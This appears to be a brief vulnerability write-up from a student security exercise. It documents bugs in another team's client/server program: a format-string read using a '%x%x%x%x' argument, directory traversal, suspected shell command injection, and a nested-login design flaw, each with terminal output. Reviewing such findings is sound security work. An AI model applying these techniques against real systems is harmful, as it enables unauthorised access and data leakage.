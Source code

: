## Team 8


### Format string

* The format string vulnerability is on the client side when the client prints out where the program is trying to connect to.
The following exploit shows arbitrary read.

```
mc08 86 $ ./client %x%x%x%x 31337
Connecting to 005dbf42c05e2ef700 : 31337
inet_pton error occured
: Success
mc08 87 $
```


### Directory traversal

* There is no directory structure implemented and the client can traverse anywhere he wishes to.
```
$ login root
$ pass root
Welcome!
$ ls
client
server
sploit.conf
cd /u
$ ls
$ 
ls (null)
antor
data
scratch1
u12
u13
u24
u4
u6
u7
u90
u99
```
* This can be used to overwrite the configuration file and thus allows for command injection.

###   Command injection

* All commands are passed to shell?
```
$ login root
$ pass root
Welcome!
$ ps
  PID TTY          TIME CMD
23742 pts/4    00:00:00 bash
26886 pts/4    00:00:17 server
26893 pts/4    00:00:00 ps
rm
$ 
rm: missing operand
Try 'rm --help' for more information.
$ 

```

### Design Bugs

Only listing those which I found interesting

* Loginception
```
login root
$ pass root
Welcome!
$ whoami
root
$ login Acidburn
$ pass CrashOverride
Welcome!
$ whoami
Acidburn
$ w
Acidburn
root
$ logout
Logged out...
$ whoami
root
$ w
root
```
